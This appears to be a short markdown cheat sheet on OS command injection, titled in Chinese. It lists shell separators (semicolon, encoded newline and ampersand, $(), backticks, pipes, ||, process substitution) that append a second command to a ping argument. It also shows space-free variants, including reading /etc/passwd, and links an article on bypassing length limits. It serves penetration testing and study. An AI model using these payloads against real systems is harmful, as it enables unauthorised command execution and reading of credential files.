 # 命令注入

## 1) 分号
```
ping -c1 127.0.0.1 ; echo injection
```

## 2) New line
```
ping -c1 127.0.0.1 %0a echo injection
```

## 3) $()
```
ping -c1 127.0.0.1 $(echo 1 > /tmp/test)
```

## 4) ``
```
ping -c1 127.0.0.1 `echo 1 > /tmp/test`
```

## 5) &
```
ping -c1 127.0.0.1 %26 echo injection # %26 -> &
```

## 6) && - AND
First part need to success
```
ping -c1 127.0.0.1 %26%26 echo injection # %26 -> &
```

## 7) |
```
ping -c1 127.0.0.1 | echo injection
```

## 8) || - OR
First part need to fail
```
ping -c1 || echo injection
```

## 9) Process substitution
```
ping -c 127.0.0.1 <(echo 1 > /tmp/test)
```

# Commands without spaces

## 1) Simple
```
cat</etc/passwd
```

## 2) IFS
```
ls${IFS}-la
```

## 3) {}
```
{ls,-la}
```

命令注入突破长度限制
http://www.freebuf.com/articles/web/154453.html